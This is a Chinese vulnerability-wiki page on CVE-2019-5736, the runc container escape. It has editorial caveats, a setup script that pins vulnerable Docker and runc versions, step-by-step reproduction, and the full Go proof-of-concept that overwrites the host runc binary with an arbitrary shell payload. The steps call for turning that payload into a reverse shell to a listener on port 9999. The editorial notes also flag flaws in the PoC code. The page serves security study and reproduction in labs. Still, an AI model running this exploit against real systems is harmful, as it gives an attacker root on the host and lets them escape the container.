







## 2026-10-03 版本核验

CNA 将 Docker 的界限写为 before 18.09.2，原文 ≤ 18.09.2 把修复版本包含在内。版本索引已改为 Docker < 18.09.2，同时保留 runc through 1.0-rc6 的组件界限。原文代码及容器内 root / 写入条件保留。

# Docker runC 漏洞导致容器逃逸 CVE-2019-5736

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：容器内root可改/bin/sh、宿主触发exec/run、适用未修复runc且宿主二进制可覆盖；版本与user namespace条件需核对
- 证据范围：明确警告覆盖runc后Docker可能无法再启动，危害披露较好；步骤未传-shell而代码默认空命令，不能产生声称反弹

### 本次正文校订

- 按实际内容修正 6 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- docker<=18.09.2与runc<=rc6边界需厂商核验，补丁版不应笼统包含
- 安装到/usr/local/sbin/runc不证明daemon实际调用该文件，应检查runtime路径
- PoC os.OpenFile错误被忽略后调用Fd可能空指针，轮询无退出条件
- 环境脚本替换系统包/源、hold更新且缺恢复流程
- 教程编译前修改payload的截图与所贴参数化代码需保持一致

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Docker、containerd 或者其他基于 runc 的容器在运行时存在安全漏洞，攻击者可以通过特定的容器镜像或者 exec 操作获取到宿主机 runc 执行时的文件句柄并修改 runc 的二进制文件，从而获取到宿主机的 root 执行权限。要利用此漏洞，需要在容器内拥有 root (uid 0)。

参考链接：

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-5736
- https://github.com/Frichetten/CVE-2019-5736-PoC

## 漏洞影响

```shell
docker version <= 18.09.2 
RunC version <= 1.0-rc6
```

## 环境搭建

ubuntu 18.04 使用以下脚本 `install_docker_18.09.0.sh` 安装 Docker 18.09.0：

```shell
#!/bin/bash
set -e
echo "[*] Removing old Docker versions (if any)..."
sudo apt remove -y docker docker-engine docker.io containerd runc || true

echo "[*] Unholding previously held Docker packages (if any)..."
sudo apt-mark unhold docker-ce docker-ce-cli containerd.io || true

echo "[*] Removing incorrect Docker sources..."
sudo rm -f /etc/apt/sources.list.d/docker.list || true
sudo sed -i '/download.docker.com/d' /etc/apt/sources.list

echo "[*] Adding Tsinghua University Docker mirror GPG key..."
wget -qO - https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/ubuntu/gpg | sudo apt-key add -

echo "[*] Adding Tsinghua University Docker mirror repository..."
echo "deb [arch=amd64] https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/ubuntu bionic stable" \
  | sudo tee /etc/apt/sources.list.d/docker.list

echo "[*] Updating package index..."
sudo apt update

echo "[*] Searching for Docker 18.09.0..."
VERSION_STRING=$(apt-cache madison docker-ce | grep 18.09.0 | head -n1 | awk '{print $3}')
if [ -z "$VERSION_STRING" ]; then
  echo "[*] Docker 18.09.0 not found"
  exit 1
fi
echo "[*] Found version: $VERSION_STRING"

echo "[*] Installing Docker version $VERSION_STRING ..."
sudo apt install -y docker-ce=$VERSION_STRING docker-ce-cli=$VERSION_STRING containerd.io --allow-downgrades

echo "[*] Locking version to prevent automatic updates..."
sudo apt-mark hold docker-ce docker-ce-cli containerd.io

echo "[*] Installation complete, current version:"
docker --version
```

安装 runc：

```shell
wget https://github.com/opencontainers/runc/releases/download/v1.0.0-rc6/runc.amd64
sudo install -m 755 runc.amd64 /usr/local/sbin/runc
```




## 漏洞复现

**注意，以下操作将覆盖 runc ，这会导致您的系统无法再运行 Docker 容器。请在虚拟环境中操作。**

通过 [该项目](https://github.com/Frichetten/CVE-2019-5736-PoC) ，我们将用 `#!/proc/self/exe` 覆盖容器中的 `/bin/sh` ，写入恶意命令。如果容器使用 `runc` 启动，`/proc/self/exe` 实际指向的就是容器运行时使用的 `runc` 二进制文件。那么，当在容器内执行 `/bin/sh` 时，将尝试修改 `/proc/self/exe` 的目标文件，即主机上的 `runc` 二进制文件。

将 payload 修改为执行反弹 shell，编译：

```
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```




新建一个容器，将编译好的 main 传入容器：

```shell
sudo docker run -itd --name=5736 ubuntu bash
docker cp ./main 5736:/
```

执行 main，覆盖 `/bin/sh`：

```shell
docker exec -it 5736 /bin/bash
root@a9b857df4cc6:/# ./main
[+] Overwritten /bin/sh successfully
```




重新打开一个窗口，执行 `/bin/sh`，获取文件句柄，写入恶意命令：

```shell
docker exec -it 5736 /bin/sh
No help topic for '/bin/sh'
```




查看之前的窗口，此时已经执行成功：




退出当前容器，重新进入，触发恶意命令：

```shell
docker exec -it 5736 /bin/bash
```




攻击机监听 9999 端口：




## 漏洞 POC

- https://github.com/Frichetten/CVE-2019-5736-PoC

```go
package main

// Implementation of CVE-2019-5736
// Created with help from @singe, @_cablethief, and @feexd.
// This commit also helped a ton to understand the vuln
// https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d
import (
	"fmt"
	"io/ioutil"
	"os"
	"strconv"
	"strings"
	"flag"
)


var shellCmd string

func init() {
	flag.StringVar(&shellCmd, "shell", "", "Execute arbitrary commands")
	flag.Parse()
}

func main() {
	// This is the line of shell commands that will execute on the host
	var payload = "#!/bin/bash \n" + shellCmd
	// First we overwrite /bin/sh with the /proc/self/exe interpreter path
	fd, err := os.Create("/bin/sh")
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Fprintln(fd, "#!/proc/self/exe")
	err = fd.Close()
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Println("[+] Overwritten /bin/sh successfully")

	// Loop through all processes to find one whose cmdline includes runcinit
	// This will be the process created by runc
	var found int
	for found == 0 {
		pids, err := ioutil.ReadDir("/proc")
		if err != nil {
			fmt.Println(err)
			return
		}
		for _, f := range pids {
			fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
			fstring := string(fbytes)
			if strings.Contains(fstring, "runc") {
				fmt.Println("[+] Found the PID:", f.Name())
				found, err = strconv.Atoi(f.Name())
				if err != nil {
					fmt.Println(err)
					return
				}
			}
		}
	}

	// We will use the pid to get a file handle for runc on the host.
	var handleFd = -1
	for handleFd == -1 {
		// Note, you do not need to use the O_PATH flag for the exploit to work.
		handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
		if int(handle.Fd()) > 0 {
			handleFd = int(handle.Fd())
		}
	}
	fmt.Println("[+] Successfully got the file handle")

	// Now that we have the file handle, lets write to the runc binary and overwrite it
	// It will maintain it's executable flag
	for {
		writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
		if int(writeHandle.Fd()) > 0 {
			fmt.Println("[+] Successfully got write handle", writeHandle)
			fmt.Println("[+] The command executed is" + payload)
			writeHandle.Write([]byte(payload))
			return
		}
	}
}
```

## 漏洞修复

- 升级至最新版本 https://docs.docker.com/engine/release-notes/


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
